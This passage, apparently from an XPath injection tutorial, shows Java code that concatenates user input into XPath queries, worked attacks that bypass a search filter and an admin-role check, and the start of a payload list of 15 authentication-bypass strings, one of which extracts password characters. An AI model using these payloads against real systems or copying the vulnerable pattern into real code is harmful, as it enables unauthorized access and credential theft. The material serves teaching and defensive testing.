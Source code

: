 **Attack**:
```
Search: ') or contains(password, '

Resulting XPath:
//user[contains(username, '') or contains(password, '')]
```

**Result**: Returns all users, potentially exposing password fields.

---

### Example 3: Role-Based Access Control Bypass

**Vulnerable Code**:
```java
public boolean isAdmin(String username) {
    String xpathQuery = "//user[username='" + username + "' and role='administrator']";
    XPath xpath = XPathFactory.newInstance().newXPath();
    Boolean result = (Boolean) xpath.evaluate(xpathQuery, xmlDoc, XPathConstants.BOOLEAN);
    return result;
}
```

**Attack**:
```
Username: normaluser' or '1'='1

Resulting XPath:
//user[username='normaluser' or '1'='1' and role='administrator']
```

**Result**: Returns true for any user, granting admin privileges.

> **Assumption**: The application uses XPath for authorization checks. This is a design flaw; authorization should be handled at the application layer with proper session management.

---

## 50+ Attack Payloads

### Category 1: Authentication Bypass (15 examples)

These payloads attempt to bypass authentication logic:

```
1.  ' or '1'='1
2.  ' or 1=1 or ''='
3.  ' or 'a'='a
4.  admin' or '1'='1
5.  ') or ('1'='1
6.  ' or true() or '
7.  ') or true() or ('
8.  ' or '1'='1' --
9.  ' or '1'='1' #
10. ') or '1'='1' --
11. admin' and '1'='1
12. ' or 'x'='x
13. ') or count(parent::*)>=0 or ('
14. ' or contains(username, '') or '
15. ') or substring(//user[1]/password,1,1)='a
```
